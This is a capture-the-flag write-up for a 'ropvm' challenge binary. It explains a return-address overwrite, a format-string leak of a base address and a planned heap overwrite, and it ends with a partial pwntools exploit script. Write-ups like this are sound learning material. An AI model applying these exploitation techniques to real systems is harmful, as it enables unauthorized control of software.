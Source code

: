 Ah, I use `xxd` command to dump program.bin and see the opcodes inside it

### Arbitrary read

Because we can write into return address of the `VM`, I decide to do a quite complicated chain, which is going to read into `buffer[0x8000]` and change `%s` to my own format in order to get base address



### Arbitrary Write

Okay, after leaking, I choose to return to the start of `program.bin` to get the original flow

My purpose is to overwrite all the `program.bin` stored inside heap region

So I should find a way to set the first parameter to `0` and the second param to a big value

I try to dive into `program.bin` to look for a place where I can get my first parameter become 0, so that I can read from the base of `program.bin`





**Final Exploit**:
```py
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("./ropvm_patched")
l = ELF("./libc.so.6")
gs="""
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE: # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p

r = start()

def set_param(prior, val):
    return (p32(22) + p32(prior) + p32(val)).ljust(16, b'\0')
def exec():
    return (p32(21)).ljust(16, b'\0')
r.recvuntil(b'Password : ')
r.sendline(b'V3ry53cretP4ass')

r.recvuntil(b'[+] Correct Password!\n')
pl = b''

# pl = set_param(0x1, 0x8030)
# pl += exec()
# pl += set_param(0x0, 0x0)
# pl += set_param(0x1, 0x8030)
# pl += set_param(0x2, 0xffff)
# pl += exec()
# pl += b'%p%2$p%3$p'
stack_vm = 0xdff8
padding = 32
pl = b'\0' * padding
pl += p32(stack_vm)
```